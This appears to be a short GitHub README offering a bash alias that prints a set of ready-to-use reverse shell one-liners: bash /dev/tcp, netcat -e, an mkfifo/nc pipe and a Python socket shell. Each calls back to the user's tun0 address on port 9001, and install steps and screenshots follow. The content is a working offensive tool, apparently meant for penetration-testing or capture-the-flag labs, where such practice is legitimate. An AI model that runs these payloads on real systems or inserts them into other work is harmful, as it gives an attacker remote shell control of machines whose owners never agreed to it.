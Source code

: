 # Set a Bash Alias for Common Reverse Shell's
```bash
alias reverse="arg1=\$(ip -f inet addr show tun0 | grep -Po 'inet \K[\d.]+'); printf \"bash -i >& /dev/tcp/\$arg1/9001 0>&1\"; printf \"\n\nnc -e /bin/sh \$arg1 9001\"; printf \"\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \$arg1 9001 >/tmp/f\";printf \"\n\npython -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"\$arg1\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n\""
```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse</b>"

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/4gWwukP.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/SSu6L0r.png">
<br>
<br>
<b>Please feel free to modify this!</b>
